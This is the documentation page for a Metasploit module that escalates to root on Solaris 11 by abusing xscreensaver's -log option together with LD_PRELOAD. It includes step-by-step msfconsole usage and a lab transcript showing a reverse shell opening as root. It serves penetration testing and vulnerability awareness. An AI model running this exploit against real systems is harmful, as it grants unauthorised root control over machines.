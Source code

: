 ## Description

  This module exploits a vulnerability in `xscreensaver` versions
  since 5.06 on unpatched Solaris 11 systems which allows users
  to gain root privileges.

  `xscreensaver` allows users to create a user-owned file at any
  location on the filesystem using the `-log` command line argument
  introduced in version 5.06.

  This module uses `xscreensaver` to create a log file in `/usr/lib/secure/`,
  overwrites the log file with a shared object, and executes the shared
  object using the `LD_PRELOAD` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * xscreensaver version 5.15 on Solaris 11.1 (x86)
  * xscreensaver version 5.15 on Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/xscreensaver_log_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

### XSCREENSAVER_PATH

  Path to `xscreensaver` executable. (default: `/usr/bin/xscreensaver`)

### XORG_PATH

  Path to `Xorg` executable. (default: `/usr/bin/Xorg`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf > use exploit/solaris/local/xscreensaver_log_priv_esc 
  msf exploit(solaris/local/xscreensaver_log_priv_esc) > set session 1
  session => 1
  msf exploit(solaris/local/xscreensaver_log_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(solaris/local/xscreensaver_log_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Starting Xorg on display :1 ...
  [*] Creating log file /usr/lib/secure/QKaG911RA8.so ...
  [*] Writing '/tmp/.cqihxHb/.fjgQFF7F08.c' (248 bytes) ...
  [*] Writing '/tmp/.cqihxHb/.K94KoDObn' (61 bytes) ...
  [*] Executing payload...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.221:39510) at 2019-10-21 03:58:47 -0400
  [!] Tried to delete /usr/lib/secure/QKaG911RA8.so, unknown result
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08.c
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08
  [+] Deleted /tmp/.cqihxHb/.K94KoDObn
  [+] Deleted /tmp/.cqihxHb

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015
  ```

